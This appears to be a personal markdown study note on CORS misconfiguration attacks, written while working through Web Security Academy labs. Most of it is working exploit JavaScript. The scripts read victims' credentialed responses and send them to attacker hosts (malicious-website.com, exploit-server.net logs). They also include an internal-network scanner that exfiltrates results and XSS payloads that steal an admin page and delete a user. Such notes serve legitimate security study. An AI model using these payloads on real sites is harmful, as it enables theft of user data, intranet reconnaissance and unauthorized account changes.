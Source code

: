 # Cross-origin resource sharing (CORS)
CORS is a browser mechanism which enables controlled access to resources located outside of a given domain. It's used to to extend same-origin policy.  
## Same-origin policy
SOP restritcs ability of website to interact with resources outside of source domain. It's very restrictive. CORS protocol uses suite of HTTP headers that defines trusted web origins and associated properties (such as auth access)
## Server-generated ACAO header from client-specified Origin header
ACAO - Access-Control-Allow-Origin header  
This is an issue when server generates Allow-Origin from clients request. It's simply no protection, because it will accept any domain as origin and just copy it to ACAO header.  
In such case:
```
Request:
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...

Response:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```
We can host such script on our website to retrieve sensitive data:
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```
## Errors in origins whitelist
usual:
```
normal-website.com
hackersnormal-website.com
normal-website.com.evil-user.net
```
## Whitelisted null origin value
Some applications might whitelist the `null` origin to support local development of the application.  
In this situation attacker can use tricks to generated cross-origin request containing null origin. For example this could be done with sandboxed iframe:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
idk why, but `src="data...` doesn't work. In place of it use:
```
srcdoc="<script>...</script>"
```
## XSS via CORS
If site trusts some subdomain which is vulnerable to XSS, we can use URL like this:
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
## Breaking TLS with poorly configured CORS 
We can detect that website reflects any subdomain in ACAO header regardless protocol.  
In such case we need to detect which endpoint of sute uses HTTP and try to exploit XSS on it  
Then:
```
<script>
    document.location="http://stock.0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();req.onload = reqListener; req.open('get','https://0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='https://exploit-0a930014030dfc71c11e84f601550032.exploit-server.net/log?data='%2bthis.responseText; };;%3c/script>&storeId=1"
</script>
```
## Intranets and CORS without credentials 
Most CORS attacks rely on the presence of the response header: 
```
Access-Control-Allow-Credentials: true
```
Without that header, the victim user's browser will refuse to send their cookies  
In such case we can try to access inner private network:
```
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```
If users within the private IP address space access the public internet then a CORS-based attack can be performed from the external site that uses the victim's browser as a proxy for accessing intranet resources.  

### Script for scanning inner network:
```
<script>
        var q = [], collaboratorURL = 'http://exploit-0a7f00490417a1aac052b207013a00cb.exploit-server.net/log';

        for(i=1;i<=255;i++) {
            q.push(function(url) {
                return function(wait) {
                    fetchUrl(url, wait);
                }
            }('http://192.168.0.'+i+':8080'));
        }

        for(i=1;i<=20;i++){
            if(q.length)q.shift()(i*100);
        }

        function fetchUrl(url, wait) {
            var controller = new AbortController(), signal = controller.signal;
            fetch(url, {signal}).then(r => r.text().then(text => {
                location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
            }))
            .catch(e => {
                if(q.length) {
                    q.shift()(wait);
                }
            });
            setTimeout(x => {
                controller.abort();
                if(q.length) {
                    q.shift()(wait);
                }
            }, wait);
        }
        </script>
```
XSS
```
<script>
            function xss(url, text, vector) {
                location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
            }

            function fetchUrl(url, collaboratorURL){
                fetch(url).then(r=>r.text().then(text=>
                {
                    xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
                }
                ))
            }

            fetchUrl("http://192.168.0.28:8080", "http://exploit-0a7f00490417a1aac052b207013a00cb.exploit-server.net/log");
        </script>
```
## Delete user
```
       <script>
            function xss(url, text, vector) {
                location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
            }

            function fetchUrl(url){
                fetch(url).then(r=>r.text().then(text=>
                {
                xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
                }
                ))
            }

            fetchUrl("http://192.168.0.28:8080");
        </script>
```
